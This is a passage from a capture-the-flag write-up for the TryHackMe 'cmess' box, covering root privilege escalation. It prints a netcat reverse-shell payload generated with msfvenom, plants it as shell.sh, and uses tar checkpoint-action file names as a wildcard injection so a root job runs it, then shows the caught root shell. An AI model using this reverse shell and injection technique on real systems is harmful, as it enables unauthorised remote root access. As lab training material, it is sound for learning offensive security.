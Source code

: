 ```
┌──(kali㉿kali)-[~/TryHackMe/cmess]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.63.75 lport=4445 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 88 bytes
mkfifo /tmp/cloz; nc 10.9.63.75 4445 0</tmp/cloz | /bin/sh >/tmp/cloz 2>&1; rm /tmp/cloz
```

Then I use the payload to create a shell inside the `backup/` directory:

```
[REDACTED]@cmess:~$ echo "mkfifo /tmp/cloz; nc 10.9.63.75 4445 0</tmp/cloz | /bin/sh >/tmp/cloz 2>&1; rm /tmp/cloz" > backup/shell.sh
<4445 0</tmp/cloz | /bin/sh >/tmp/cloz 2>&1; rm /tmp/cloz" > backup/shell.sh
[REDACTED]@cmess:~$ ls -l backup
ls -l backup
total 8
-rwxr-x--- 1 [REDACTED] [REDACTED] 51 Feb  9  2020 note
-rw-rw-r-- 1 [REDACTED] [REDACTED] 89 Sep  6 15:16 shell.sh
```

After that, execute these following commands:

```
[REDACTED]@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
[REDACTED]@cmess:~/backup$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
```

<p class="message">
💡 Read more about tar’s checkpoint from https://www.gnu.org/software/tar/manual/html_section/checkpoints.html

</p>

Start another listener and wait for awhile to get access as **root** user:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.112.136] 48506
id
uid=0(root) gid=0(root) groups=0(root)
```

Upgrade the shell for a better view and get the **root flag**:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
root@cmess:/home/[REDACTED]/backup# cd
cd
root@cmess:~# ls -l
ls -l
total 4
-rw-r--r-- 1 [REDACTED] [REDACTED] 38 Feb  6  2020 root.txt
root@cmess:~# cat root.txt
cat root.txt
thm{[REDACTED]}
```
